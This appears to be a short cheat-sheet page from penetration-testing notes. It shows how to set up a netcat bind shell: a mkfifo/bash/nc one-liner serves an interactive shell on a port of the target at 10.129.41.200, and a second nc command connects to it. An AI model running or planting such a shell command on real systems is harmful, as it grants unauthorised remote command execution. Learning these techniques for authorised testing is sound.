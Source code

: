 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# NetCat Bind Shell

**Start the listener on the target machine:** On the target machine, specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a Bind Shell to the system gets served when the client attempts to connect.

```shell
Target@server[~]$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**Connect to the bind shell:**

```shell
clue@machine[/]$ nc -nv 10.129.41.200 7777

target@server[~]$  
```
